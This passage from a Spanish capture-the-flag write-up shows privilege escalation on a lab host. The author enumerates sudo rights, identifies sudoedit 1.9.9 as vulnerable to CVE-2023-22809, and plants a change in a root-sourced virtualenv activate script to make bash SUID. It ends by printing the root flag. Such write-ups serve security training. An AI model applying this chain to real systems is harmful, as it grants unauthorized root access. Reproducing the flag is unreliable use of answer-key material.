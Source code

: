 Tengo varios privilegios a nivel de sudoers

```null
edwards@agile:/home$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

La versión de ```sudoedit``` es vulnerable al ```CVE-2023-22809```

```null
edwards@agile:/tmp$ sudoedit -V
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```

Modifico el ```/app/venv/bin/activate```, a través del ```/app/config_test.json```, que permite en el ```sudoers``` para que la próxima vez que se logué el usuario root, asigne a la bash el privilegio SUID

```null
edwards@agile:/$ find \-group dev_admin 2>/dev/null 
./home/dev_admin
./app/venv
./app/venv/bin
./app/venv/bin/activate
./app/venv/bin/Activate.ps1
./app/venv/bin/activate.fish
./app/venv/bin/activate.csh
```

```null
edwards@agile:/$ find \-user dev_admin 2>/dev/null 
./home/dev_admin
./app/app-testing/tests/functional/creds.txt
./app/config_test.json
./app/config_prod.json
```

Puedo ver la segunda flag

```null
edwards@agile:/$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
edwards@agile:/$ bash -p
edwards@agile:/# cat /root/root.txt 
d4bd3231862f25acf2f5db8af092bc3d
```